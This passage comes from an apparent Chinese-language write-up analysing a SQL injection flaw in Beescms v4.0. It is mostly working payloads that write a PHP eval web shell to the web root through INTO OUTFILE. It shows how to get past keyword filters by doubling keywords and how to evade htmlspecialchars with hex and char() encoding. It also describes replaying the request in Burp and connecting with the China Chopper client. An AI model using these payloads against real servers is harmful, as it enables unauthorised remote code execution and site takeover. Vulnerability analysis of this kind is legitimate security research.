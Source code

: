 ```mysql
admin%27 un union ion selselectect 1,2,3,4,<?php @eval($\_POST\[cmd\]);?> into  outfile 'C:/phpStudy/WWW/beescms/shell.php'#
```

在burpsuit抓包,修改包并重放,提示如下错误,根据返回的数据包可以看到由于`htmlspecialchars`函数对输入的特殊符号进行html实体化转义,还有就是`into`、`outfile`关键字被过滤

　　![](./resource/Beescms_v4.0 sql注入漏洞分析/media/1592114-20190828123022227-1424726596.png)

手工测试`bypass`关键字过滤防护

```mysql
outfile => outoutfilefile

into => in into
```

　　![](./resource/Beescms_v4.0 sql注入漏洞分析/media/1592114-20190828123042332-360149153.png)

通过上面的分析,发现php函数`htmlspecialchars()`对输入中含有的特殊符号进行html实体化转义,导致不能写shell到目标服务器上。可以通过利用mysql注入的一个特性就可以达到注入效果(即对shell部分进行Hex编码),或者用mysql函数char()就可以绕过这里的限制。

## 方法一、Hex编码

对shell部分进行编码

　　![](./resource/Beescms_v4.0 sql注入漏洞分析/media/1592114-20190828123111496-2002992180.png)

写入shell的payload为:注意:记得在编码转换的时候前面加`0x`或者直接用`unhex`函数

`unhex(3c3f70687020406576616c28245f504f53545b636d645d293b3f3e)`,但是本次实验用`unhex`函数一直失败

```mysql
admin' uni union on selselectect null,null,null,null,0x3c3f70687020406576616c28245f504f53545b636d645d293b3f3e  in into  outoutfilefile 'C:/phpStudy/WWW/beescms/shell.php'#
```

burp修改数据包,成功写入shell

　　![](./resource/Beescms_v4.0 sql注入漏洞分析/media/1592114-20190828123201443-1123090542.png)

菜刀连接

　　![](./resource/Beescms_v4.0 sql注入漏洞分析/media/1592114-20190828123216674-1934691201.png)

## 方法二、使用char函数

mysql内置函数`char()`可以将里边的`ascii`码参数转换为字符串,使用`python`实现快速转换

　　![](./resource/Beescms_v4.0 sql注入漏洞分析/media/1592114-20190828123236295-1625110644.png)

构造payload,payload为:

```mysql
admin' uni union on selselectect null,null,null,null,char(60, 63, 112, 104, 112, 32, 64, 101, 118, 97, 108, 40, 36, 95, 80, 79, 83, 84, 91, 99, 109, 100, 93, 41, 59, 63, 62)  in into  outoutfilefile 'C:/phpStudy/WWW/beescms/cmd.php'#
```
